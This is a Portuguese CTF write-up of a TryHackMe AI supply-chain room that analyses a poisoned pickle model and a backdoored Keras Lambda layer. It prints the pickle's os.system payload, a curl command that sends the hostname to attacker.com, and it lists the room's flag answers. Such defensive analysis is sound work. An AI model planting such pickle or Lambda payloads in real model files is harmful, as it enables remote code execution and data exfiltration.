






# 🔍 Payload — CTF Writeup
### TryHackMe Room | AI Supply Chain Security · Modelo de ML Envenenado (Pickle `__reduce__` / Keras Lambda Layer) · Resposta a Incidente

---

| **Analista**          | Mauricio Robert                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                            |
| **Data do Relatório** | 09/10/2026                                                                                   |
| **Data do Incidente** | 26/01/2024 (implantação do modelo malicioso) → 16/02/2024 03:14 (alerta do SOC)             |
| **Classificação**     | CONFIDENCIAL                                                                                 |
| **Ferramentas**       | `pickletools` · `inspect_h5_model.py` · `cat` / `ls` (logs) · fickling / modelscan (disponíveis no lab) |
| **Incidente**         | `#2024-SC-0847` — host `ml-server-prod-01` (`10.0.1.50`)                                     |

---

## 🔍 Resumo Executivo

O desafio **Payload** (TryHackMe — *AI Supply Chain Security Module*) simula um incidente de **cadeia de suprimentos de IA**. Em **05/01/2024** a equipe implantou o modelo legítimo `code-review-bert v1.0.0`, vindo da organização **`verified-ml-team`** no Hugging Face. Em **26/01/2024** um pedido de atualização (`ml-engineer@trytrainme.com`) trocou a fonte para uma organização diferente — **`trustworthy-ai-lab`** — e o arquivo **`production_model.pkl`** foi colocado em produção. Esse arquivo é um **pickle malicioso**: ao ser desserializado, o opcode `REDUCE` chama **`os.system`** com o comando `curl "http://attacker.com/beacon" -d "host=$(hostname)"`, enviando a identidade do servidor ao atacante. **21 dias** depois (16/02/2024, 03:14) o SOC detectou tráfego HTTPS de saída incomum para `attacker.com:443`. O `beacon_capture.log` mostra uma requisição **`POST /beacon`** bloqueada pela regra `SOC_RULE_4821`, contendo apenas parte do ID de campanha. A outra metade está no modelo **`candidate_model.h5`**, preparado pela equipe como substituto: uma camada **Keras `Lambda` (`manipulate_output`)** com o atributo `exfil_suffix`. Juntando as duas partes obtém-se a flag **`THM{b4ckd00r_1n_pl41n_s1ght}`**. A investigação respondeu a **sete questões técnicas**.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                    | Finalidade                                                                                                        |
|-------------------------------|-------------------------------------------------------------------------------------------------------------------|
| **`cat` / `ls`**              | Leitura de `deployment.log`, `beacon_capture.log` e `network.log` em `/opt/supply-chain/incident/logs/`          |
| **`python3 -m pickletools`**  | Desmontagem (*disassembly*) do `production_model.pkl` **sem executá-lo** — mostra opcodes, `GLOBAL` e o comando   |
| **`inspect_h5_model.py`**     | Inspeção da arquitetura do `candidate_model.h5` (Keras/HDF5) e sinalização de camadas `Lambda` suspeitas          |
| **fickling / modelscan**      | Disponíveis no lab para análise estática de pickles/modelos (não foram necessários para as respostas)             |
| **pip-audit / syft**          | Disponíveis no lab (SBOM e vulnerabilidades de dependências) — fora do escopo desta sala                          |

---

## 📋 Perguntas e Respostas

### Q1 — Leia o log de deployment. O modelo substituto veio de uma organização diferente da original. Qual o nome dessa organização?

> **Resposta: `trustworthy-ai-lab`**

**Solução:** Lendo `/opt/supply-chain/incident/logs/deployment.log`:

```
$ cat /opt/supply-chain/incident/logs/deployment.log
[2024-01-05 09:15:22] INFO  Model registry: pulling code-review-bert v1.0.0
[2024-01-05 09:15:23] INFO  Source: huggingface.co/verified-ml-team/code-review-bert
[2024-01-05 09:15:25] INFO  Loaded model: original_model.pkl (sha256: 793bb2f5bfdf4a1c...)
[2024-01-05 09:15:26] INFO  Model deployed to production inference server
[2024-01-26 14:32:10] INFO  Model update requested by ml-engineer@trytrainme.com
[2024-01-26 14:32:12] INFO  Source: huggingface.co/trustworthy-ai-lab/code-review-bert-v2
[2024-01-26 14:32:14] WARN  New source organisation detected: trustworthy-ai-lab
[2024-01-26 14:32:15] INFO  Loaded model: production_model.pkl
[2024-01-26 14:32:16] INFO  Model deployed to production inference server
[2024-02-16 03:14:00] ALERT SOC automated alert: unusual outbound HTTPS traffic detected
[2024-02-16 03:14:01] ALERT Destination: attacker.com:443
[2024-02-16 03:14:33] INFO  Incident #2024-SC-0847 created - investigation required
```

O log até **avisa** (`WARN New source organisation detected`), mas ninguém agiu. O original vinha de **`verified-ml-team`**; a substituição veio de **`trustworthy-ai-lab`** — um nome que *parece* confiável, típico de **typosquatting/abuso de confiança** em registries de modelos. Note também que o modelo "novo" não tem `sha256` registrado, ao contrário do original.


---

### Q2 — Quantos dias se passaram entre a implantação do modelo substituto e o disparo do alerta do SOC?

> **Resposta: `21`**

**Solução:** Pelas datas do mesmo log:

```
Implantação do production_model.pkl : 2024-01-26 14:32:16
Alerta do SOC                        : 2024-02-16 03:14:00
```

De **26/01 a 16/02** são **21 dias de calendário** (5 dias restantes de janeiro + 16 de fevereiro). Em tempo corrido são ≈ 20,5 dias (20 d 12 h 41 min), mas a plataforma aceita **21**. É o **dwell time** do atacante: três semanas com um backdoor ativo em produção antes da detecção ("*Three weeks ago, something else started running*").



---

### Q3 — Descompile o modelo de produção. Qual função Python o payload usa para executar o comando de shell?

> **Resposta: `system`**

**Solução:** Um arquivo `.pkl` é um programa para a *Pickle Virtual Machine*. O `pickletools` o desmonta **sem executar**:

```
$ python3 -m pickletools /opt/supply-chain/incident/models/production_model.pkl
    0: \x80 PROTO      4
    2: \x95 FRAME      79
   11: \x8c SHORT_BINUNICODE 'os'
   15: \x94 MEMOIZE    (as 0)
   16: \x8c SHORT_BINUNICODE 'system'
   24: \x94 MEMOIZE    (as 1)
   25: \x93 STACK_GLOBAL
   26: \x94 MEMOIZE    (as 2)
   27: \x8c SHORT_BINUNICODE 'curl "http://attacker.com/beacon" -d "host=$(hostname)"'
   84: \x94 MEMOIZE    (as 3)
   85: \x85 TUPLE1
   86: \x94 MEMOIZE    (as 4)
   87: R    REDUCE
   88: \x94 MEMOIZE    (as 5)
   89: .    STOP
highest protocol among opcodes = 4
```

Leitura do bytecode:

1. `'os'` e `'system'` vão para a pilha e **`STACK_GLOBAL`** resolve o *callable* **`os.system`**.
2. A *string* do comando é empilhada e embalada em uma tupla (`TUPLE1`).
3. **`REDUCE`** executa `os.system("<comando>")` **no momento do `pickle.load()`** — equivale a um `__reduce__` malicioso.

Ou seja, **carregar o modelo = executar código arbitrário**. Nenhuma inferência é necessária.



---

### Q4 — Qual comando de shell o payload usa para capturar a identidade do host?

> **Resposta: `hostname`**

**Solução:** O argumento passado a `os.system` (offset 27 do disassembly) é:

```bash
curl "http://attacker.com/beacon" -d "host=$(hostname)"
```

A **substituição de comando `$(hostname)`** coleta o nome do servidor (`ml-server-prod-01`) e o `curl -d` o envia no corpo de uma requisição **POST** para `attacker.com/beacon`. É um *beacon* de reconhecimento: o atacante descobre qual host executou o modelo.



---

### Q5 — O log de captura do beacon mostra o método HTTP usado na requisição de saída. Qual é?

> **Resposta: `POST`**

**Solução:** Em `/opt/supply-chain/incident/logs/beacon_capture.log`:

```
$ cat /opt/supply-chain/incident/logs/beacon_capture.log
[2024-02-16 03:13:47] SESSION beacon-4821 ESTABLISHED  src=10.0.1.50  dst=attacker.com:443
[2024-02-16 03:13:47] REQUEST POST /beacon HTTP/1.1
[2024-02-16 03:13:47] HOST attacker.com
[2024-02-16 03:13:47] PAYLOAD host=ml-server-prod-01&id=THM{b4ckd00r_1n_
[2024-02-16 03:13:48] SESSION beacon-4821 BLOCKED  bytes_captured=51  reason=SOC_RULE_4821
```

O método é **`POST`** — coerente com o `curl -d` do payload (a flag `-d` faz o `curl` usar POST). A sessão `beacon-4821` partiu do servidor `10.0.1.50` e foi **bloqueada em 1 segundo** pela regra `SOC_RULE_4821`, que capturou apenas **51 bytes**.



---

### Q6 — A equipe preparou `candidate_model.h5` como substituto, mas ainda não o implantou. Rode `inspect_h5_model.py` contra ele. Qual o nome da camada suspeita?

> **Resposta: `manipulate_output`**

**Solução:**

```
$ python3 /opt/supply-chain/tools/inspect_h5_model.py /opt/supply-chain/incident/models/candidate_model.h5

=== Architecture Inspection: candidate_model.h5 ===

  Total layers: 5

  [OK]      InputLayer     input_layer_2
  [OK]      Flatten        flatten_2
  [OK]      Dense          dense_4
  [OK]      Dense          dense_5
  [WARNING] Lambda         manipulate_output (function: manipulate_output)
            exfil_suffix: pl41n_s1ght}

  RESULT: 1 layer(s) require review
    - Lambda (manipulate_output): Can contain arbitrary Python code that executes at inference time
```

Das 5 camadas, quatro são padrão (`InputLayer`, `Flatten`, `Dense` ×2). A **camada `Lambda`** `manipulate_output` é o problema: ela serializa uma **função Python arbitrária** dentro do arquivo `.h5`, que roda **em tempo de inferência**. O nome genérico ("manipulate output") esconde a intenção, e o atributo **`exfil_suffix: pl41n_s1ght}`** entrega a segunda metade do ID da campanha — o *candidate* seria o **mesmo backdoor da próxima versão**, garantindo persistência após a "troca de modelo".



---

### Q7 — O atacante dividiu o ID da campanha entre dois artefatos. Examine `beacon_capture.log` e o modelo candidato para recuperar a flag completa.

> **Resposta: `THM{b4ckd00r_1n_pl41n_s1ght}`**

**Solução:** Juntando os dois fragmentos:

| Artefato                    | Fragmento                       |
|-----------------------------|---------------------------------|
| `beacon_capture.log`        | `id=THM{b4ckd00r_1n_`           |
| `candidate_model.h5` (`exfil_suffix`) | `pl41n_s1ght}`        |
| **Flag completa**           | **`THM{b4ckd00r_1n_pl41n_s1ght}`** |

Validação com o formato pedido `***{********_**_*****_*****}`: `THM` · `b4ckd00r` (8) · `1n` (2) · `pl41n` (5) · `s1ght` (5). ✔ ("backdoor in plain sight" em *leetspeak*.)

A divisão em dois artefatos é uma técnica de **evasão**: nenhuma captura isolada (rede *ou* modelo) revela o ID completo, e o SOC só viu os 51 primeiros bytes antes do bloqueio.

> ⚠️ **Nota do analista:** nos prints, esta última resposta foi **digitada no terminal**, mas **não aparece o "Correct Answer"** da plataforma (as seis anteriores aparecem). Confirme o envio no campo da Q7 antes de entregar e, se quiser, anexe o print.



---

## ⛓ Kill Chain — Fluxo do Ataque ao Modelo de ML

```
[FASE 1 — LINHA DE BASE LEGÍTIMA]  (05/01/2024 09:15)
    huggingface.co/verified-ml-team/code-review-bert  v1.0.0
    original_model.pkl (sha256: 793bb2f5bfdf4a1c...) → produção
    ↓
[FASE 2 — SUBSTITUIÇÃO DA FONTE (SUPPLY CHAIN)]  (26/01/2024 14:32)
    Pedido de atualização de ml-engineer@trytrainme.com
    Nova fonte: huggingface.co/trustworthy-ai-lab/code-review-bert-v2
    WARN "New source organisation detected" — ignorado
    production_model.pkl → implantado em produção (sem hash registrado)
    ↓
[FASE 3 — EXECUÇÃO NO LOAD DO PICKLE]
    pickle.load() → STACK_GLOBAL os.system → REDUCE
    curl "http://attacker.com/beacon" -d "host=$(hostname)"
    ↓
[FASE 4 — C2 / BEACON (21 DIAS DE DWELL TIME)]  (até 16/02/2024)
    ml-server-prod-01 (10.0.1.50) → attacker.com (185.234.72.19):443
    Tráfego crescente no network.log: 4096 → 8192 → 16384 → 32768 bytes
    ↓
[FASE 5 — DETECÇÃO E BLOQUEIO]  (16/02/2024 03:13–03:14)
    03:13:47  POST /beacon  PAYLOAD host=ml-server-prod-01&id=THM{b4ckd00r_1n_
    03:13:48  SESSION beacon-4821 BLOCKED (SOC_RULE_4821, 51 bytes)
    03:14:00  ALERT SOC → Incidente #2024-SC-0847
    ↓
[FASE 6 — PERSISTÊNCIA PLANEJADA]
    candidate_model.h5 (ainda não implantado) → Lambda "manipulate_output"
    exfil_suffix: pl41n_s1ght}   ← 2ª metade do ID da campanha
```

---

## 🗺 Mapeamento Investigativo

| Pergunta | Fonte de Evidência | Artefato |
|----------|--------------------|----------|
| Organização do modelo substituto | `logs/deployment.log` (WARN de 26/01) | `trustworthy-ai-lab` |
| Dias até o alerta | `logs/deployment.log` (26/01 → 16/02) | `21` |
| Função Python do payload | `pickletools` em `production_model.pkl` (`GLOBAL os system` + `REDUCE`) | `system` |
| Comando que captura a identidade | `pickletools` (string no offset 27) | `hostname` |
| Método HTTP do beacon | `logs/beacon_capture.log` | `POST` |
| Camada suspeita | `inspect_h5_model.py` em `candidate_model.h5` | `manipulate_output` |
| Flag completa | `beacon_capture.log` + `exfil_suffix` do candidato | `THM{b4ckd00r_1n_pl41n_s1ght}` |

---

## 🚨 Artefatos e Indicadores Identificados (IOCs)

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Host (vítima) | `ml-server-prod-01` — `10.0.1.50` | Servidor de inferência comprometido |
| Domínio (C2) | `attacker.com:443` | Destino do beacon (alerta do SOC) |
| IP (C2) | `185.234.72.19` | IP de `attacker.com` no `network.log` |
| URL do beacon | `http://attacker.com/beacon` | Alvo do `curl` embutido no pickle |
| Requisição | `POST /beacon HTTP/1.1` | `host=ml-server-prod-01&id=THM{b4ckd00r_1n_` |
| Sessão | `beacon-4821` | Bloqueada por `SOC_RULE_4821` (51 bytes) |
| Fonte legítima | `huggingface.co/verified-ml-team/code-review-bert` | Modelo original `v1.0.0` |
| Fonte maliciosa | `huggingface.co/trustworthy-ai-lab/code-review-bert-v2` | Origem do modelo envenenado |
| Arquivo | `models/production_model.pkl` | Pickle malicioso (`os.system` via `REDUCE`) |
| Arquivo | `models/candidate_model.h5` | Keras com camada `Lambda` maliciosa |
| Hash | `793bb2f5bfdf4a1c...` (sha256, truncado no log) | `original_model.pkl` (baseline legítimo) |
| Comando | `curl "http://attacker.com/beacon" -d "host=$(hostname)"` | Payload do pickle |
| Camada | `Lambda` → `manipulate_output` (`exfil_suffix: pl41n_s1ght}`) | Backdoor do modelo candidato |
| Conta | `ml-engineer@trytrainme.com` | Solicitou a atualização do modelo (verificar comprometimento/engenharia social) |
| Incidente | `#2024-SC-0847` | Ticket aberto às 03:14:33 de 16/02/2024 |
| Flag | `THM{b4ckd00r_1n_pl41n_s1ght}` | ID de campanha reconstituído |
| Técnica (MITRE ATT&CK) | `T1195.002` | Supply Chain Compromise: Compromise Software Supply Chain |
| Técnica (MITRE ATT&CK) | `T1059.004` | Command and Scripting Interpreter: Unix Shell |
| Técnica (MITRE ATT&CK) | `T1082` | System Information Discovery (`hostname`) |
| Técnica (MITRE ATT&CK) | `T1071.001` | Application Layer Protocol: Web Protocols (HTTPS) |
| Técnica (MITRE ATT&CK) | `T1041` | Exfiltration Over C2 Channel |
| Técnica (MITRE ATLAS) | `AML.T0010` | ML Supply Chain Compromise |

---

## ✅ Resumo das Flags

| # | Pergunta | Flag / Resposta |
|---|----------|------------------|
| Q1 | Organização do modelo substituto | `trustworthy-ai-lab` |
| Q2 | Dias entre implantação e alerta | `21` |
| Q3 | Função Python que executa o shell | `system` |
| Q4 | Comando que captura a identidade do host | `hostname` |
| Q5 | Método HTTP do beacon | `POST` |
| Q6 | Camada suspeita do `candidate_model.h5` | `manipulate_output` |
| Q7 | Flag completa (ID da campanha) | `THM{b4ckd00r_1n_pl41n_s1ght}` |

---

## 📚 Referências

- [TryHackMe — Payload (AI Supply Chain Security)](https://tryhackme.com/room/payload)
- [Python — `pickle`: aviso de segurança](https://docs.python.org/3/library/pickle.html)
- [Python — `pickletools`](https://docs.python.org/3/library/pickletools.html)
- [Trail of Bits — fickling](https://github.com/trailofbits/fickling)
- [ProtectAI — modelscan](https://github.com/protectai/modelscan)
- [Hugging Face — safetensors](https://github.com/huggingface/safetensors)
- [Keras — `load_model(safe_mode=...)` / Lambda layers](https://keras.io/api/models/model_saving_apis/model_saving_and_loading/)
- [MITRE ATLAS — AML.T0010 ML Supply Chain Compromise](https://atlas.mitre.org/techniques/AML.T0010)
- [MITRE ATT&CK — T1195.002 Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002/)

---